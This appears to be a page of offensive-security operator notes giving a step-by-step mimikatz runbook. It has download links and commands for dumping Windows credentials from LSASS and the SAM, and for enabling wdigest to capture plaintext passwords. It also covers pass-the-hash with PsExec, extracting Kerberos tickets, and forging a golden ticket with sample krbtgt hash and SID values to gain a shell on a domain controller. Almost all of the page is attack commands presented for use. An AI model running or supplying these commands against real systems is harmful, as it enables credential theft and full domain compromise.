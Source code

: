 Operators Handbook pg 202
NEEDS LOCAL ADMIN USER / SYTEM ACCESS
#### Old version!
mimikatz 2.1.1 for Win 10 1809-1803
```bash
git clone https://github.com/caday00/mimikatz2.1.1
```
#### New versions!
```bash
https://github.com/gentilkiwi/mimikatz/releases
```
Run CMD / PS as admin before running mimikatz.
#### Password dumps
```
privilege::debug
```
```
token::elevate
```
```
lsadump::sam
```
```
sekurlsa::logonpasswords
```
---
```Batch
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```
```Batch
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"
```
IF YOU GET THIS ERROR:  Download an older version and try again.
`sekulsa::logonpasswords full`
`ERROR kuhl_m_sekurlsa_acuireLSA ; key import`
Enable wdigest (shows plaintext passwords when a user logs in again)
```
sekurlsa::wdigest
```
#### Pass The Hash
Be sure to have a copy of PsExec on target!
```
sekurlsa::pth /user:$USER /domain:$NETBIOS_DOMAIN_NAME /ntlm:$HASH /run:".psexec \$USER -h cmd.exe"
```
#### TGT and service tickets abuse
```batch mimikatz
sekurlsa::tickets
```
[[4._Service Account Attacks]]
#### Golden Ticket
```batch mimikatz
privilege::debug
```
```batch mimikatz
token::elevate
```
```batch - mimikatz
lsadump::lsa /inject /name:krbtgt
```
We need the SID and NTLM values.
```batch - mimikatz - SID
S-1-5-21-3930179768-1295167970-3814010639
```
```batch - mimikatz - NTLM
9aef958e753aad3426a3b6630e15a671
```
```batch - mimikatz
kerberos::golden /User:fakeuser /domain:marvel.local /sid:S-1-5-21-3930179768-1295167970-3814010639 /krbtgt:9aef958e753aad3426a3b6630e15a671 /id:500
```
```
 kerberos::ptt ticket.kirbi
```
```batch - mimikatz
misc::cmd
```
```
psexec.exe \\dc01 cmd.exe
```
```
whoami
```
```
whoami /groups
```
